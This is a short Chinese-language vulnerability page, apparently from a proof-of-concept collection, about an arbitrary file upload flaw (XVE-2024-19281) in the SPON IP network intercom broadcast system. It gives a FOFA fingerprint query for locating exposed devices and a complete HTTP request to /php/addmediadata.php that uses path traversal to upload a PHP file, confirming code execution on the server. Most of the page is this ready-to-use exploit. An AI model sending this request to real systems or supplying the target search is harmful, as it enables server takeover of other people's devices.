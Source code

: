# 世邦通信SPON-IP网络对讲广播系统addmediadata.php任意文件上传漏洞(XVE-2024-19281)

盛邦通信的SPON IP对讲广播系统采用先进的IPAudio技术，通过局域网和广域网以数据包的形式传输音频信号。该系统实现了全数字化的传输。盛邦通信的SPON IP对讲广播系统存在一个漏洞，允许任意文件上传。攻击者可以利用这个漏洞上传任意文件，并获取服务器权限。

## fofa

```yaml
icon_hash="-1830859634"
```

## poc

```yaml
POST /php/addmediadata.php HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US)
AppleWebKit/534.16 (KHTML, like Gecko) Chrome/10.0.648.133 Safari/534.16
Content-Length: 514
Content-Type: multipart/form-data;boundary=de3b7a45ced9f35720e192ff54eb83908644f0ec70b3dc6fb19b6b5f08
Accept-Encoding: gzip, deflate, br
Connection: close

--de3b7a45ced9f35720e192ff54eb83908644f0ec70b3dc6fb19b6b5f0828
Content-Disposition: form-data; name="fullpath"

../
--de3b7a45ced9f35720e192ff54eb83908644f0ec70b3dc6fb19b6b5f0828
Content-Disposition: form-data; name="subpath"

/
--de3b7a45ced9f35720e192ff54eb83908644f0ec70b3dc6fb19b6b5f0828
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: application/octet-stream

<?php echo md5(1);unlink(__FILE__);?>
--de3b7a45ced9f35720e192ff54eb83908644f0ec70b3dc6fb19b6b5f0828--
```

